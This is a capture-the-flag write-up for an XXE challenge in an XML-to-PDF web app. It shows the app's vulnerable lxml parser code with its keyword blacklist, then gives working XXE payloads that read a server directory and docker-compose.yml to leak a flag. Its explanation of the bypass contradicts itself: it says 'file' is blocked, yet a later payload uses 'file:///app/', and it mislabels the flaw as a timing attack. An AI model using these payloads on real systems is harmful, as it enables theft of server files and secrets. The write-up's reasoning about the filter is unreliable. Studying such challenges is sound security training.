




# PDFile - XXE Vulnerability Writeup

**Challenge Author**: Alan Davide Bovo (@AlBovo)  
**Challenge Type**: Web Security / XXE (XML External Entity Injection)  
**Difficulty**: Medium  
**Points**: 409

## Challenge Description

PDFile is a XML to PDF conversion utility that accepts `.pasx` files (XML format) and generates PDF documents from them. The application allows users to upload custom XML files to dynamically generate book-formatted PDFs.

The challenge was to extract a hidden flag that was passed as a Docker build argument to the application container.

## Vulnerability Summary

The application is vulnerable to **XXE (XML External Entity) Injection** due to:

1. **Enabled Entity Resolution**: The XML parser has `resolve_entities=True`
2. **Insufficient Input Validation**: A simplistic blacklist-based sanitization
3. **Timing Attack**: Sanitization occurs before entity expansion
4. **No Path Restrictions**: No allowlist for file access via entity resolution

## Technical Analysis

### Vulnerable Code

```python
def sanitize(xml_content):
    try:
        content_str = xml_content.decode('utf-8')
    except UnicodeDecodeError:
        return False
    
    if "&#" in content_str:
        return False
    
    blacklist = [
        "flag", "etc", "sh", "bash", 
        "proc", "pascal", "tmp", "env", 
        "bash", "exec", "file", "pascalctf is not fun"
    ]
    if any(a in content_str.lower() for a in blacklist):
        return False
    return True

def parse_pasx(xml_content):
    if not sanitize(xml_content):
        raise ValueError("XML content contains disallowed keywords.")
    
    try:
        # VULNERABLE: resolve_entities=True allows XXE attacks
        parser = etree.XMLParser(encoding='utf-8', no_network=False, 
                                 resolve_entities=True, recover=True)
        root = etree.fromstring(xml_content, parser=parser)
        
        book_data = {
            'title': root.findtext('title', default='Untitled'),
            'author': root.findtext('author', default='Unknown Author'),
            # ... rest of parsing
        }
        return book_data
```

### The Vulnerability Chain

```
User Upload (.pasx)
    ↓
Flask receives XML file
    ↓
sanitize(xml_content) checks for blacklist keywords
    ↓ ✓ Passes (XML source doesn't contain "flag", "etc", etc.)
    ↓
etree.fromstring(xml_content, parser=parser) with resolve_entities=True
    ↓
DOCTYPE entities are expanded → Files are read from filesystem
    ↓
File contents inserted into book_data['title']
    ↓
generate_pdf() creates PDF with file contents
    ↓
User downloads PDF containing sensitive data
```

## Why the Blacklist Failed

The blacklist attempts to block access to sensitive files by filtering keywords:
- `flag`, `etc`, `proc`, `env`, `tmp`, `bash`, `exec`, `file`



However, it only checks the **raw XML string before parsing**. Entity expansion happens **after** the sanitization check:



```xml
<?xml version="1.0"?>
<!DOCTYPE book [
  <!ENTITY xxe SYSTEM "file:///app/docker-compose.yml">  <!-- "file" is blacklisted -->
]>
<book>
  <title>&xxe;</title>  <!-- But the content doesn't literally contain "file" -->
</book>
```

The word `"file"` appears in the DTD declaration (which is checked), but:
- The sanitizer doesn't prevent DTD definitions themselves
- It only prevents blacklist keywords in the content section
- Once the parser expands `&xxe;`, the file is already read

## Exploitation

### Step 1: Identify the Vulnerability

The application accepts `.pasx` files and processes them through an XML parser. The presence of `<!DOCTYPE>` declarations and the XML parsing mechanism suggests potential XXE vulnerability.

### Step 2: Test XXE with Safe Path

First, test with a path that doesn't contain blacklist keywords:

```xml
<?xml version="1.0"?>
<!DOCTYPE book [
  <!ENTITY xxe SYSTEM "file:///app/">
]>
<book>
  <title>&xxe;</title>
  <author>Test</author>
  <year>2024</year>
  <chapters></chapters>
</book>
```

Upload this as `test.pasx` to see directory listing in the generated PDF.

### Step 3: Read Sensitive Files

Once XXE is confirmed, target files that don't contain blacklist keywords:

**Read docker-compose.yml** (Contains the FLAG as a build argument):

```xml
<?xml version="1.0"?>
<!DOCTYPE book [
  <!ENTITY xxe SYSTEM "/app/docker-compose.yml">
]>
<book>
  <title>&xxe;</title>
  <author>Test</author>
  <year>2024</year>
  <chapters></chapters>
</book>
```



The title will contain the entire `docker-compose.yml` file, including:

```yaml
name: web04
services:
  pdfile:
    build:
      context: .
      args:
        - FLAG=pascalCTF{redacted}
    ports:
      - "127.0.0.1:8004:5000"
    # ... rest of config
```


**Flag**:



**Challenge Status**: ✅ Solved

## The End .